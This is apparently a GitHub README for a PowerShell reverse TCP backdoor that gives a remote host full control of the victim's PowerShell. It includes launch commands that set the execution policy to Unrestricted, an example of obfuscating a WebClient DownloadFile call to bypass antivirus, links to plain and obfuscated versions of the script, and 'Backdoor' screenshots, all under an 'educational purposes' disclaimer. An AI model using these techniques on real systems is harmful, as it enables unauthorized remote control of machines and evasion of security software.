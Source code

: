 # PowerShell Reverse TCP

PowerShell script for connecting to a remote host.

Remote host will have full control over client's PowerShell and all its underlying commands.

Tested with PowerShell v5.1.18362.145 on Windows 10 Enterprise OS (64 bit).

Made for educational purposes. I hope it will help!

## How to Run

**Change the IP address and port number inside the script.**

To start the PowerShell, run the following command from your Command Prompt:

```batch
START PowerShell -ExecutionPolicy Unrestricted -NoProfile
```

To execute the script, run the following command from your PowerShell:

```pwsh
& .\powershell_reverse_tcp.ps1
```

## PowerShell Obfuscation

Try to bypass an antivirus or some other security mechanisms by obfuscating your scripts.

You can see such obfuscation in the following example.

Original PowerShell command:

```pwsh
(New-Object Net.WebClient).DownloadFile($url, $out)
```

Obfuscated PowerShell command:

```pwsh
& (`G`C`M *ke-E*) '(& (`G`C`M *w-O*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`F`I`L`E"($url, $out)'
```

**Check the original PowerShell script [here](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp.ps1) and the obfuscated one [here](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp_obfuscated.ps1).**

Besides [manual obfuscation](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp_manual.ps1), the original PowerShell script was also obfuscated with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) tool. Credits to the author!

Search the Internet for additional methods and obfuscation techniques.

## Images

![Backdoor](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/img/backdoor.jpg)

![Shell](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/img/shell.jpg)
